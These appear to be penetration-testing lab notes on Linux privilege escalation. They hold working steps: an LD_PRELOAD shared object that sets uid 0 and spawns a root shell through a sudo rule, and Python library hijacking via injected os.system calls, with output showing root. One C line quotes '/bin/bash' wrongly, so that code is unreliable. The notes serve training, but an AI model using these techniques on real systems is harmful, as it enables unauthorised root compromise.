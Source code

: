 -----
# Kernel Exploit
-----
- Gather kernel information: 
```bash
uname -a
cat /etc/lsb-release
```

- Do some research to find exploits of vulnerable kernels

-----
# Shared libraries
-----
- Run `sudo -l` to check what command user can run with no password and if LD_PRELOAD is set
```bash
sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl

```

- Create a C file, which will be compiled into a shared object file (`.so`)
```bash
nano root.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system('/bin/bash');
}
```

- Compile to `.so` file
```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles

-fPIC: This option stands for "Position Independent Code" and is used to generate position-independent code. Position-independent code can be loaded and executed at any memory address, making it suitable for shared libraries.
-nostartfiles: This option tells the compiler not to use the standard system startup files during the linking process. Startup files typically contain code that sets up the environment for a program, but in this case, it is not necessary since the code is being compiled into a shared library.

```

- Run the program with this preloaded library
```bash
sudo LD_PRELOAD=$PATH_TO_root.so $COMMAND 
# In this case, the command is /usr/bin/openssl, which can be found via sudo -l
```


-----
# Hijack Python Libraries
------
- Find python scripts that has SUID set
- Examine the scripts, look up the functions used in their corresponding libraries
```bash
#!/usr/bin/env python3
import psutil 

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")

```

- In this case, we will look up function `virtual_memory` in `psutil` library
```bash
# Look for python files that have virtual_memory() function
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*

/usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psaix.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psbsd.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pslinux.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psosx.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pssunos.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pswindows.py:def virtual_memory():

# Check permissions
ls -la /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

/usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

- Now locate the function `virtual_memory()` in \_\_init\_\_.py to inject the code
```bash
import os
os.system('id')
```

- Run the program
```bash
sudo /usr/bin/python3 ./mem_status.py
```

### PYTHONPATH listing
```bash
python3 -c 'import sys;print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

- Above are the orders of files that the script will load
- To exploit this:
	1. the module that is imported by the script must be located at lower priority via the PYTHONPATH
	2. We must have write permission onto one of the paths

- Locate the path of the module
```bash
pip3 show psutil

Location: /usr/local/lib/python3.8/dist-packages
```

- Assume `/usr/lib/python3.8` has write option, we can inject malicious code 
- Create `psutil.py`
```bash
nano psutil.py

#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')
```
- Save the file in `/usr/lib/python3.8` folder. Make sure that the file we create has the same name as the imported module.
- Run `mem_stats.py`
```bash
sudo /usr/bin/python3 mem_stats.py

uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
  File "mem_stats.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available' 
```



